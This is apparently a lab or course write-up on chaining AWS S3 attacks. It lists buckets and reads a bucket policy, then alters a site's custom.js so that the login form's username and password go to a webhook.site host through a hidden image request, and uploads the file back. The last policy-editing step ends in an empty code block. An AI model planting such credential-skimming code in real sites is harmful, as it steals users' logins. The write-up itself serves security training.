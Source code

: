 # Chaining Attacks

Check S3 buckets. `aws s3api list-buckets --profile PTAcademyJllerena`
![image](https://user-images.githubusercontent.com/46797181/227757045-5fe0977c-58a0-48a8-9d50-a79da3574459.png)

List bucket contents. 

```
aws s3 ls s3://s3-file-load-845168849788 --profile PTAcademyJllerena
aws s3 ls s3://s3-file-load-static-845168849788 --profile PTAcademyJllerena

```
![image](https://user-images.githubusercontent.com/46797181/227757255-998e4eb3-6d8d-4cb8-814f-cb47e9eda231.png)

Check if a static website is available in the browser. Enter the URL in the format `http://s3-file-load-402113608956.s3-website-us-east-1.amazonaws.com/`
![image](https://user-images.githubusercontent.com/46797181/227757843-44100fd9-3cee-4c79-b513-016096a64dcd.png)

Checking the source code, it is possible to see that the application points to the other bucket
![image](https://user-images.githubusercontent.com/46797181/227757961-974638a6-fb24-4383-adf1-7afae792ad0a.png)

Checking the other bucket `aws s3 ls s3://s3-file-load-static-402113608956/static/ --profile PTAcademyJllerena` it can be seen that there are files in there 
![image](https://user-images.githubusercontent.com/46797181/227758067-4e6f663f-ae64-45c8-ae29-ca22b0f3e0e8.png)

Check the bucket policy `aws s3api get-bucket-policy --bucket s3-file-load-static-402113608956 --output text  --profile PTAcademyJllerena | jq `
![image](https://user-images.githubusercontent.com/46797181/227758140-4c74218c-a0c4-42ae-a4fa-8ba11114025b.png)

Copy custom.js script from the bucket to local machine. `aws s3 cp s3://s3-file-load-static-402113608956/static/javascript/custom.js ./ --profile PTAcademyJllerena`
Modify custom.js to steal credentials from the webpage and send them to a custom attacker’s server. The file will look like this

```
function makeRequest() {
var xhttp = new XMLHttpRequest();
xhttp.onreadystatechange = function() {
if (this.readyState == 4 && this.status == 200) {
document.getElementById("output").innerHTML = this.responseText;
}
if (this.readyState == 4 && this.status != 200) {
document.getElementById("output").innerHTML = "Invalid Credentials";
}
};
var url = 'https://ahyk95vfo5.execute-api.us-west-2.amazonaws.com/dev?username=' + $('#pi3').val() + '&password=' + $('#pi4').val()
xhttp.open("GET", url, true);
xhttp.send();
element=document.getElementById('pi3');
element.innerHTML +="<img src='https://webhook.site/51655c62-39b0-41d5-a79f-db620b78a77f/?username="+$('#pi3').val()+"&password="+$('#pi4').val()+"' style = 'display:none'>"
}

```

Then upload the js file back to the bucket. `aws s3 cp custom.js s3://s3-file-load-static-402113608956/static/javascript/custom.js --profile PTAcademyJllerena`

![image](https://user-images.githubusercontent.com/46797181/227759373-afd93298-c822-470b-a36c-99f98a34b609.png)

Go to the application and enter any credentials and notice that the webhook receives the request 

![image](https://user-images.githubusercontent.com/46797181/227759582-ab7c93db-3193-4057-956d-fc38a22de97b.png)

Get the bucket policy with `aws s3api get-bucket-policy --bucket s3-file-load-static-402113608956 --output text --profile PTAcademyJllerena | jq ` and edit the file to look like the one below

```


```















